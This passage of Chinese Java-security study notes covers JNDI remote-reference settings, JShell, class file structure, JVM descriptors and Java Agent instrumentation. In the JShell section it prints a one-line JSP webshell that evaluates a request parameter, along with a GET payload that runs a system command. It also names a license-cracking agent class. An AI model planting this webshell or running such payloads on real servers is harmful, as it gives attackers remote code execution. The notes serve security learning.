| LDAP协议             | `ldaps://`     | `com.sun.jndi.url.ldaps.ldapsURLContextFactory`         |
| IIOP对象请求代理协议 | `iiop://`      | `com.sun.jndi.url.iiop.iiopURLContext`                  |
| IIOP对象请求代理协议 | `iiopname://`  | `com.sun.jndi.url.iiopname.iiopnameURLContextFactory`   |
| IIOP对象请求代理协议 | `corbaname://` | `com.sun.jndi.url.corbaname.corbanameURLContextFactory` |


### RMI/LDAP远程对象引用安全限制

在RMI服务中引用远程对象将受本地Java环境限制即本地的`java.rmi.server.useCodebaseOnly`配置必须为false(允许加载远程对象)，如果该值为true则禁止引用远程对象。除此之外被引用的ObjectFactory对象还将受到`com.sun.jndi.rmi.object.trustURLCodebase`配置限制，如果该值为false(不信任远程引用对象)一样无法调用远程的引用对象。

JDK 5 U45,JDK 6 U45,JDK 7u21,JDK 8u121开始`java.rmi.server.useCodebaseOnly`默认配置已经改为了true。
JDK 6u132, JDK 7u122, JDK 8u113开始`com.sun.jndi.rmi.object.trustURLCodebase`默认值已改为了false。
本地测试远程对象引用可以使用如下方式允许加载远程的引用对象：
```java
System.setProperty("java.rmi.server.useCodebaseOnly", "false");
System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
```

LDAP在JDK 11.0.1、8u191、7u201、6u211后也将默认的`com.sun.jndi.ldap.object.trustURLCodebase`设置为了false。

高版本JDK可参考：[如何绕过高版本 JDK 的限制进行 JNDI 注入利用](https://paper.seebug.org/942/){target="_blank"}

JNDI 注入漏洞参考：[JNDI 注入漏洞](/Sec/Web/JNDI/JNDI)

## 1.13 JShell

从Java 9开始提供了一个叫jshell的功能，jshell是一个REPL(Read-Eval-Print Loop)命令行工具，提供了一个交互式命令行界面，在jshell中我们不再需要编写类也可以执行Java代码片段，开发者可以像python和php一样在命令行下愉快的写测试代码了。

命令行执行jshell即可进入jshell模式：

{width=80% loading=lazy}

??? example "使用JShell执行代码片段"

    jshell不仅是一个命令行工具，在我们的应用程序中同样也可以调用jshell内部的实现API，也就是说我们可以利用jshell来执行Java代码片段

    jshell.jsp一句话木马示例:

    ```jsp
    <%=jdk.jshell.JShell.builder().build().eval(request.getParameter("src"))%>
    ```

    ```java title="GET 请求"
    ?src=new String(Runtime.getRuntime().exec("pwd").getInputStream().readAllBytes())
    ```

## 1.14 Java 字节码

Java源文件(*.java)通过编译后会变成class文件，class文件有固定的二进制格式，class文件的结构在JVM虚拟机规范第四章[The class File Format](https://docs.oracle.com/javase/specs/jvms/se15/html/jvms-4.html){target="_blank"}中有详细的说明。本章节将学习class文件结构、class文件解析、class文件反编译以及ASM字节码库。(1)
{ .annotate }

1. [Java规范文档](https://docs.oracle.com/javase/specs/)


### Java class文件格式

class文件结构如下：

```java
ClassFile {
    u4 magic; // (1)!
    u2 minor_version;
    u2 major_version; // (2)!
    u2 constant_pool_count; // (3)!
    cp_info constant_pool[constant_pool_count-1]; // (4)!
    u2 access_flags; // (5)!
    u2 this_class; // (6)!
    u2 super_class; // (7)!
    u2 interfaces_count; // (8)!
    u2 interfaces[interfaces_count]; // (9)!
    u2 fields_count; // (10)!
    field_info fields[fields_count];// (11)!
    u2 methods_count;// (12)!
    method_info methods[methods_count];// (13)!
    u2 attributes_count;// (14)!
    attribute_info attributes[attributes_count];// (15)!
}
```

1. 魔数是class文件的标识符，固定值为`0xCAFEBABE`，JVM加载class文件时会先读取魔数校验文件类型。
2. class文件的版本号由两个u2组成（`u2 minor_version`, `u2 major_version`），分别表示的是副版本号和主版本号
3. `u2 constant_pool_count`表示的是常量池中的数量，`constant_pool_count`的值等于常量池中的数量加1，需要特别注意的是long和double类型的常量池对象占用两个常量位。
4. `cp_info constant_pool[constant_pool_count-1]`是一种表结构，cp_info表示的是常量池对象。[u1 tag : u1 info], 每种tag表示一种数据类型，具体参考手册
5. `u2 access_flags` 表示类或者接口的访问权限及属性。
6. `u2 this_class`表示当前class文件的类名所在常量池中的索引位置
7. `u2 super_class`表示当前class文件的父类类名所在常量池中的索引位置。`java.lang.Object`类的super_class的为0
8. `u2 interfaces_count`表示当前类继承或实现的接口数
9. `u2 interfaces[interfaces_count]`表示所有接口数组
10. `u2 fields_count`表示当前class中的成员变量个数
11. `field_info fields[fields_count]`表示当前类的所有成员变量
    ```java
    field_info {
        u2 access_flags;
        u2 name_index;
        u2 descriptor_index;
        u2 attributes_count;
        attribute_info attributes[attributes_count];
    }
    ```
    **属性结构：**
    1. `u2 access_flags;`表示的是成员变量的修饰符；
    2. `u2 name_index;`表示的是成员变量的名称；
    3. `u2 descriptor_index;`表示的是成员变量的描述符；
    4. `u2 attributes_count;`表示的是成员变量的属性数量；
    5. `attribute_info attributes[attributes_count];`表示的是成员变量的属性信息；
12. `u2 methods_count`表示当前class中的成员方法个数。
13. `method_info methods[methods_count]`表示的是当前class中的所有成员方法
    **method_info数据结构：**
    ```
    method_info {
    u2 access_flags;
    u2 name_index;
    u2 descriptor_index;
    u2 attributes_count;
    attribute_info attributes[attributes_count];
    }
    ```
    **属性结构：**
    1. `u2 access_flags;`表示的是成员方法的修饰符；
    2. `u2 name_index;`表示的是成员方法的名称；
    3. `u2 descriptor_index;`表示的是成员方法的描述符；
    4. `u2 attributes_count;`表示的是成员方法的属性数量；
    5. `attribute_info attributes[attributes_count];`表示的是成员方法的属性信息；
14. `u2 attributes_count`表示当前class文件属性表的成员个数。
15. `attribute_info attributes[attributes_count];`表示的是当前class文件的所有属性
    **`attribute_info`数据结构：**
    ```
    attribute_info {
    u2 attribute_name_index;
    u4 attribute_length;
    u1 info[attribute_length];
    }
    ```
    `u2 attribute_name_index;`表示的是属性名称索引，读取`attribute_name_index`值所在常量池中的名称可以得到属性名称。

在JVM规范中`u1`、`u2`、`u4`分别表示的是1、2、4个字节的无符号数，可使用`java.io.DataInputStream`类中的对应方法：`readUnsignedByte`、`readUnsignedShort`、`readInt`方法读取。表结构(`table`)由任意数量的可变长度的项组成，用于表示class中的复杂结构，如上述的：`cp_info`、`field_info`、`method_info`、`attribute_info`。

### Java class文件解析

[Todo](/todo)
{ .annotate }

1. 巨长，特别是属性解析部分，需要时间整理（前面的世界以后再来探索吧）

### JVM指令集

#### 类型/方法描述符

**类型描述符表**

| 描述符   | Java类型       | 示例                 |
| -------- | -------------- | -------------------- |
| `B`      | `byte`         | `B`                  |
| `C`      | `char`         | `C`                  |
| `D`      | `double`       | `D`                  |
| `F`      | `float`        | `F`                  |
| `I`      | `int`          | `I`                  |
| `J`      | `long`         | `J`                  |
| `S`      | `short`        | `S`                  |
| `Z`      | `boolean`      | `Z`                  |
| `[`      | `数组`         | `[IJ`                |
| `L类名;` | `引用类型对象` | `Ljava/lang/Object;` |

**方法描述符示例**

| 方法示例                            | 描述符                                   | 描述                      |
| ----------------------------------- | ---------------------------------------- | ------------------------- |
| `static{...}`，`static int id = 1;` | 方法名：`<clinit>`                       | 静态语句块/静态变量初始化 |
| `public Test (){...}`               | 方法名：`<init>`，描述符`()V`            | 构造方法                  |
| `void hello(){...}`                 | `()V`                                    | `V`表示`void`，无返回值   |
| `Object login(String str) {...}`    | `(Ljava/lang/String;)Ljava/lang/Object;` | 普通方法，返回Object类型  |
| `void login(String str) {...}`      | `(Ljava/lang/String;)V`                  | 普通方法，无返回值        |

#### JVM指令

参见官方文档（之前安卓逆向的时候看过一点）

### [Java 类字节码编辑](java_asm)

## 1.15 Java Agent

`JDK1.5`开始，`Java`新增了`Instrumentation(Java Agent API)`和`JVMTI(JVM Tool Interface)`功能，允许`JVM`在加载某个`class文件`之前对其字节码进行修改，同时也支持对已加载的`class(类字节码)`进行重新加载(`Retransform`)。

利用`Java Agent`这一特性衍生出了`APM(Application Performance Management，应用性能管理)`、`RASP(Runtime application self-protection，运行时应用自我保护)`、`IAST(Interactive Application Security Testing，交互式应用程序安全测试)`等相关产品，它们都无一例外的使用了`Instrumentation/JVMTI`的`API`来实现动态修改`Java类字节码`并插入监控或检测代码。

**`Java Agent`有两种运行模式：**

1. 启动`Java程序`时添加`-javaagent(Instrumentation API实现方式)`或`-agentpath/-agentlib(JVMTI的实现方式)`参数，如`java -javaagent:/data/XXX.jar LingXeTest`。
2. `JDK1.6`新增了`attach(附加方式)`方式，可以对运行中的`Java进程`附加`Agent`。

这两种运行方式的最大区别在于第一种方式只能在程序启动时指定`Agent`文件，而`attach`方式可以在`Java程序`运行后根据`进程ID`动态注入`Agent`到`JVM`。

Java Agent和普通的Java类相似，`premain`（Agent模式）和`agentmain`（Attach模式）为Agent程序的入口，如下：

```java
public static void premain(String args, Instrumentation inst) {}
public static void agentmain(String args, Instrumentation inst) {}
```

Java Agent限制必须以jar包的形式运行或加载。此外，Java Agent强制要求所有的jar文件中必须包含`/META-INF/MANIFEST.MF`文件，且该文件中需要定义`Premain-Class`（Agent模式）或`Agent-Class:`（Agent模式）配置，如：

```java
Premain-Class: cc.agent.CrackLicenseAgent
Agent-Class: cc.agent.CrackLicenseAgent
```

如果需要修改已经被JVM加载过的类的字节码，需要在设置`MANIFEST.MF`中添加`Can-Retransform-Classes: true`或`Can-Redefine-Classes: true`。

### Instrumentation

`java.lang.instrument.Instrumentation`是监测`JVM`中运行程序的`API`，功能如下：

1. 动态添加或移除自定义的`ClassFileTransformer`（`addTransformer/removeTransformer`），JVM会在类加载时调用Agent中注册的`ClassFileTransformer`；
2. 动态修改`classpath`（`appendToBootstrapClassLoaderSearch`、`appendToSystemClassLoaderSearch`），将Agent程序添加到`BootstrapClassLoader`和`SystemClassLoaderSearch`（对应的是`ClassLoader类的getSystemClassLoader方法`，默认是`sun.misc.Launcher$AppClassLoader`）中搜索；
3. 动态获取所有`JVM`已加载的类(`getAllLoadedClasses`)；
4. 动态获取某个类加载器已实例化的所有类(`getInitiatedClasses`)。
5. 重定义某个已加载的类的字节码(`redefineClasses`)。
6. 动态设置`JNI`前缀(`setNativeMethodPrefix`)，可以实现Hook native方法。
7. 重新加载某个已经被JVM加载过的类字节码`retransformClasses`。

### ClassFileTransformer

`java.lang.instrument.ClassFileTransformer`是一个转换类文件的代理接口，我们可以在获取到`Instrumentation`对象后通过`addTransformer`方法添加自定义类文件转换器。

`addTransformer`可以注册自定义的`Transformer`到`Java Agent`，当有新的类被`JVM`加载时`JVM`会自动回调`Transformer`类的`transform`方法，传入该类的`transform`信息(`类名、类加载器、类字节码`等)，我们可以根据传入的类信息决定是否需要修改类字节码，修改完字节码后将新的类字节码返回给`JVM`，`JVM`会验证类和相应的修改是否合法，如果符合类加载要求`JVM`会加载修改后的类字节码。

???+ example "ClassFileTransformer"

    ```java
    package java.lang.instrument;

    public interface ClassFileTransformer {
    
    /**
         * 类文件转换方法，重写transform方法可获取到待加载的类相关信息
         *
         * @param loader              定义要转换的类加载器；如果是引导加载器，则为 null
         * @param className           类名,如:java/lang/Runtime
         * @param classBeingRedefined 如果是被重定义或重转换触发，则为重定义或重转换的类；如果是类加载，则为 null
         * @param protectionDomain    要定义或重定义的类的保护域
         * @param classfileBuffer     类文件格式的输入字节缓冲区（不得修改）
         * @return 字节码byte数组。
         */
        byte[] transform(ClassLoader loader, String className, Class<?> classBeingRedefined,
                                ProtectionDomain protectionDomain, byte[] classfileBuffer);
    
    }
    ```

!!! warning

    **重写`transform`方法需要注意以下事项：**

    1. `ClassLoader`如果是被`Bootstrap ClassLoader(引导类加载器)`所加载那么`loader`参数的值是空。
    2. 修改类字节码时需要特别注意插入的代码在对应的`ClassLoader`中可以正确的获取到，否则会报`ClassNotFoundException`，比如修改`java.io.FileInputStream(该类由Bootstrap ClassLoader加载)`时插入了我们检测代码，那么我们将必须保证`FileInputStream`能够获取到我们的检测代码类。
    3. `JVM`类名的书写方式路径方式：`java/lang/String`而不是我们常用的类名方式：`java.lang.String`。
    4. 类字节必须符合`JVM`校验要求，如果无法验证类字节码会导致`JVM`崩溃或者`VerifyError(类验证错误)`。
    5. 如果修改的是`retransform`类(修改已被`JVM`加载的类)，修改后的类字节码不得`新增方法`、`修改方法参数`、`类成员变量`。
    6. `addTransformer`时如果没有传入`retransform`参数(默认是`false`)就算`MANIFEST.MF`中配置了`Can-Redefine-Classes: true`而且手动调用了`retransformClasses`方法也一样无法`retransform`。
    7. 卸载`transform`时需要使用创建时的`Instrumentation`实例。

### Agent 实现破解License

[Todo](/todo) 感觉很有意思，有时间再研究